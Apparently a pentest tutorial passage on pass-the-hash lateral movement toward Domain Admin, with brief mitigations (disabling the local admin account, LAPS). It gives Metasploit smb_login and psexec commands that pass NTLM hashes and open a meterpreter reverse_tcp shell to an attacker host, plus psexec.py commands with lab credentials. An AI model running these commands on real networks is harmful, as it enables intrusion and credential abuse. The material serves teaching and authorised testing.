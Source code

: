 We use this attack to latterally move around the network with Domain Admin being the desired end goal. Obviously if you find a Domain Admin hash you can pass that :)

So the patch wasnt really a true patch. Ways to fix this attack vector include the network admin disabling the default local admin account, creating a new regular user account, and then adding that to the local administrators group.

Alternatively, Microsofts LAPS product randomises they local administrator password for machines on a regular basis. While passing the hash will still work in principal the lack of reused local admin passwords across machines limits its usefullness.

> It’s also worth noting that Microsoft’s LAPS effectively renders everything here moot. As LAPS randomizes the local administrator password for machines on a periodic basis, pass-the-hash will effectively still work, but it greatly limits the ability to recover and reuse local key material. This renders traditional PTH attacks (with local accounts at least) largely ineffective

## Tools

### smb_login module in metasploit

We can scan a range of hosts with the metasploit smb_login module and test any hashes we might of come across in our pentest.

{% highlight PowerShell %}
use auxiliary/scanner/smb/smb_login
set smbpass aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
set smbuser Administrator
{% endhighlight %}

### psexec

metasploit - We have PsExec built into metasploit. We can pass a hash in just like smb_login

{% highlight PowerShell %}
use exploit/windows/smb/psexec
set rhost 10.10.10.254
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.10.100
set lport 1337
exploit
{% endhighlight %}

psexec.py

{% highlight PowerShell %}
psexec.py 'marvel.lab/Administrator:Passw0rd!@10.50.1.65'
psexec.py 'marvel.lab/Administrator:Passw0rd!@10.50.1.65'  -c /path/to/file.exe
{% endhighlight %}

### Crackmapexec

Check the network range
